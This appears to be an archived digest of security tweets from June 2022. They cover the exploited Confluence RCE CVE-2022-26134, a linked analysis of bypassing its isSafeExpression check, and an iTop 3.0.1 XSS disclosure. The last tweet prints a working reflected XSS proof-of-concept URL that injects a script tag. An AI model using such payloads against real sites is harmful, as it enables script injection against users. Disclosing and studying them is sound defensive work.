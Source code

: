
# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1535417776290111489 _at 2022-06-11, 00:24:59_**
<blockquote>
Multiple adversaries and nation-state actors, including DEV-0401 and DEV-0234, are taking advantage of the Atlassian Confluence RCE vulnerability CVE-2022-26134. We urge customers to upgrade to the latest version or apply recommended mitigations: https://t.co/C3CykQgrOJ
</blockquote>

* https://msft.it/6015b5npx

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>161</code></td>
</tr></table>

---

# mr_r3bot
**https://twitter.com/mr_r3bot/status/1535286185358401536 _at 2022-06-10, 15:42:05_**
<blockquote>
I just wrote a technical analysis blog about Confluence CVE-2022-26134, especially focus on Confluence version 7.18.0 where isSafeExpression is introduced and different ways that you can bypass it :). If you have any questions, please dm me :)
https://t.co/AqWJ11qko5
</blockquote>

* https://mr-r3bot.github.io/research/2022/06/06/Confluence-Preauth-RCE-2022.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1535118697466953728 _at 2022-06-10, 04:36:33_**
<blockquote>
CVE-2022-31402 iTop 3.0.1 XSS Vulnerability

http://localhost/itop/webservices/export-v2.php"()%26%25&lt;acx&gt;&lt;ScRiPt%20&gt;N8Zn(9266)&lt;/ScRiPt&gt;
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>112</code></td>
</tr></table>

---